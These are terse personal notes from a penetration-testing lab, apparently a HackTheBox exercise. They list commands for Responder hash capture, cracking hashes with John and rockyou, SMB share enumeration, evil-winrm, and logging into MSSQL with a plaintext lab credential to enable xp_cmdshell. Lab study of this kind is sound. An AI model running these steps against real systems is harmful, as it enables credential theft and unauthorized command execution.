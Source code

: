 Responder
reponder -I interface
request file as //ip from responder/somefile

john --wordlist=/usr/share/wordlists/rockyou.txt hashfile
evil-wrm connect to windows httpapi

smbmap -H 10.129.74.255
smbclient -L 10.129.74.255 -list shares
if no $ sign => non admin share

smbclient //10.129.74.255\\backups 

impacket-mssqlclient -u ARCHETYPE/sql_svc -p M3g4c0rp123 10.129.230.252
enable_xp_cmdshell
